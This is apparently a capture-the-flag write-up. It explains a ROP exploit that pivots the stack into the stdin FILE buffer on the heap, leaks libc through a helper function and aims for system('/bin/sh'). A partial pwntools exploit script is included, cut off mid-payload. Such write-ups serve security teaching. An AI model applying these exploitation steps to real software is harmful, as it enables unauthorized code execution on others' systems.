 Ideally, we want to execute a rop chain that will call `system("/bin/sh")`. In order to achieve this there are two apparent obstacles: First, we need to be able to provide a longer rop chain than 2 gadgets (16 bytes), second we need a libc leak.

The first obstacle can be solved quite easily by leveraging the internal buffer of the stdin FILE structure. Even though only 16 bytes are read into the buffer on the stack, we can provide a lot more bytes which will be stored in the internal buffer of the FILE structure located on the heap. This enables us to pivot to the heap and execute a longer rop chain.

The second obstacle can probably be solved in many ways. I used the `provide_a_little_help` function to obtain a libc leak. By setting up a fake stackframe and returning into the `provide_a_little_help` function at an offset we can leverage the function to search and print the address of libc for us.

After having overcome these two obstacles, I encountered a third obstacle I didn't previously account for. Since we filled up the internal buffer of stdin, we have to first empty the buffer somehow until we can read in the second part of our rop chain which uses the obtained libc leak to return to `system`. After many tries I managed to empty the stdin buffer and get another read by setting up a fake stackframe that contained a pointer to stdin and then returning to the `fgets` call in the `provide_a_little_help` function.

Having overcome this last obstacle, we can simply overflow the stack again with the second read and execute our `system("/bin/sh")` rop chain.

### Exploit
```python
io = start(argv, env=env)

pattern = r'([0-9a-fA-F]+)'

once = io.recvline().decode()
once = [int(x, 16) for x in re.findall(pattern, once)]
once = once[1:]
print("Once: " + " ".join(hex(x) for x in once))

bin_base = once[0]

heap = io.recvline().decode()
heap = [int(x, 16) for x in re.findall(pattern, heap)]
heap = heap[1:]
print("Heap: " + " ".join(hex(x) for x in heap))

heap_base = heap[0]

stack = io.recvline().decode()
stack = [int(x, 16) for x in re.findall(pattern, stack)]
stack = stack[1:]

print("Stack: " + " ".join(hex(x) for x in stack))

my_input = heap_base + 0x18a0 + 0x10 # remote

print("Heap my input: ", hex(my_input))
rsp_begin = stack[1] - 0x1640

print("RSP begin: ", hex(rsp_begin))

# pivot to heap
payload = p64(my_input)
payload += p64(bin_base + 0x1312) #nop; leave; ret
payload += p64(my_input + 0x80) # rbp

# set up stackframe so that provide_little_help
# searches for libc and prints out its address
payload += p64(bin_base + 0x11ed)
```